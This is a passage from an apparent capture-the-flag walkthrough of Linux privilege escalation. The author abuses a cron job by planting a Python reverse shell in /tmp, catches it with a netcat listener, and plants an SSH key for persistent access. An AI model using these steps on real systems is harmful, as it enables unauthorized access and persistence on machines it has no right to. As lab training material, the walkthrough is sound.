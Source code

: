     martin@debian:~$ ls -alRh /home/
    /home/:
    <SNIP>

    /home/hadi:
    total 60K
    drwxr-xr-x 3 hadi hadi 4,0K juin   5 13:40 .
    drwxr-xr-x 5 root root 4,0K juin   9 20:17 ..
    -rw-r--r-- 1 hadi hadi  220 avril 26  2017 .bash_logout
    -rw-r--r-- 1 hadi hadi 3,5K avril 26  2017 .bashrc
    -rwxr-xr-x 1 root root 5,3K mai   10  2017 buff
    -rw-r--r-- 1 root root 1,1K mai   10  2017 buff.c
    -rw-r--r-- 1 root root  148 juin   5 13:25 example.c
    -rw------- 1 root root 2,1K juin   5 13:40 .gdb_history
    -rwxr-xr-x 1 root root 5,9K juin   5 13:38 overflow
    -rw-r--r-- 1 root root   19 mai   10  2017 peda-session-buff.txt
    -rw-r--r-- 1 root root    5 juin   5 13:40 peda-session-overflow.txt
    -rw-r--r-- 1 hadi hadi  675 avril 26  2017 .profile
    drwxr-xr-x 2 hadi hadi 4,0K mai    1  2017 .ssh
    <SNIP>

Okay we got a program `buff` owned by root and and file `buff.c` readable by anybody but there is no suid, so no need to bother here.
`martin@debian:/home/hadi$ ls -laRh /etc/cron.d` doesn't get us something useful but `cat /etc/crontab` seems usable:

    martin@debian:/home/hadi$ cat /etc/crontab 
    <SNIP>
    SHELL=/bin/sh
    PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

    # m h dom mon dow user	command
    17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
    25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
    47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
    52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
    */5   * * * *   jimmy   python /tmp/sekurity.py

Of course the script launch by jimmy in `tmp` doesn't exist. We create one with a simple python reverse shell [pentest monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet):

    :::text
    root@kalili:~# nc -l -p 1234
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=1002(jimmy) gid=1002(jimmy) groupes=1002(jimmy)

We add our ssh key to be able to connect with ssh:

    $ cd /home/jimmy
    $ mkdir .ssh
    $ cat /home/martin/.ssh/authorized_keys > .ssh/authorized_keys

There is binary `networker` owned by root with an suid in our home directory (well jimmy's):
